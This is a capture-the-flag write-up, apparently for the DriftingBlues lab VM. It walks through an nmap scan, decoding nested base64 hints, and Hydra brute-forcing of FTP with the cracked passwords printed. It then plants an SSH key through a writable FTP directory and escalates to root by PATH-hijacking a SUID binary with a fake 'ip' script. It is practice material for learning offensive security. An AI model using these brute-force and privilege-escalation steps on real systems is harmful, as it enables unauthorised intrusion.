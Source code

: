 nmap -sS -sV -T4 -p- 10.0.0.23

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

Going to the site hosted on the webserver on port 80, it says it's under construction.
Using the dev tools we can see a comment.

<!--Z28gYmFjayBpbnRydWRlciEhISBkR2xuYUhRZ2MyVmpkWEpwZEhrZ1pISnBjSEJwYmlCaFUwSnZZak5DYkVsSWJIWmtVMlI1V2xOQ2FHSnBRbXhpV0VKellqTnNiRnBUUWsxTmJYZ3dWMjAxVjJGdFJYbGlTRlpoVFdwR2IxZHJUVEZOUjFaSlZWUXdQUT09-->
It looks base64 encoded:

Base64 decode:
{
go back intruder!!! dGlnaHQgc2VjdXJpdHkgZHJpcHBpbiBhU0JvYjNCbElIbHZkU2R5WlNCaGJpQmxiWEJzYjNsbFpTQk1NbXgwV201V2FtRXliSFZhTWpGb1drTTFNR1ZJVVQwPQ==
}

Base64 decode:
{
tight security drippin aSBob3BlIHlvdSdyZSBhbiBlbXBsb3llZSBMMmx0Wm5WamEybHVaMjFoWkM1MGVIUT0=
}

Base64 decode:
{
i hope you're an employee L2ltZnVja2luZ21hZC50eHQ=
}

Base64 decode:
/imfuckingmad.txt

Going to http://10.0.0.20/imfuckingmad.txt we get a brainfuck script.

brainfuck execute:

"man we are a tech company and still getting hacked??? what the shit??? enough is enough!!!"

/iTiS3Cr3TbiTCh.png

Going to http://10.0.0.23/iTiS3Cr3TbiTCh.png there is a scannable barcode, scanning it leads to a site with another image. ---> https://imgur.com/a4JjS76
It has a list of users:

possible users:
luther
gary
hubert
clark

We can probebly use this users to brute force FTP or SSH. Trying to log into ssh we are prompted that we need a public key, so we can't brute force ssh.
Trying to log in as the anonymous user on FTP isn't available so brute force it is.

root@kali ~# hydra -L userList.txt -P /usr/share/wordlists/rockyou.txt 10.0.0.20 ftp -I -t4 -uVf

And we have 2 logins:

luther:mypics

hubert:john316

Loggin as luther to the ftp server, there a is a directory named hubert.

drwxrwxrwx   3 1001     1001         4096 Jan 18 16:40 hubert
-rw-r--r--   1 root     root           50 Jan 18 18:03 sync_log 

This is the home folder for the hurbert user on the machine. Going back to when we tried to brute force ssh, we were prompted that have to login in with a public key, that means the machine we want to connect to has to have our public key.
So we need to add our to the hurbert folder to log in to his user via ssh.
After creating a key on our local machine and putting in the authorized_key file, we can make the directory ".ssh" in the hubert directory and put the authorized_key file in there.

root@kali ~# ssh hubert@10.0.0.23 -i ~/.ssh/id_rsa
Linux driftingblues 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan 18 10:43:04 2022 from 10.0.0.27
hubert@driftingblues:~$ 


We are logged in as the "hurbert" user and we can read the first flag.
user.txt:
flag 1/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

Let's try to find files with SUID permissions to get a root shell.

hubert@driftingblues:~$ find / -perm /4000 2> /dev/null

There the file /usr/bin/getinfo, after executing it seems to output some commands to get info about the machine, one of the commands is "ip a" to get the ip address of the machine.
We can make another file named ip and have it open a new shell and change the PATH variable to be in the directory the fake ip file is.

hubert@driftingblues:~$ cat ip
#!/bin/bash

/bin/bash

hubert@driftingblues:~$ export PATH=/home/hubert
hubert@driftingblues:~$ echo $PATH
/home/hubert

hubert@driftingblues:~$ /usr/bin/getinfo
###################
ip address
###################

root@driftingblues:~# 

And we a root shell, we can change the PATH variable to /usr/bin to run commands again and read the final flag.
root.txt:
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

congratulations!


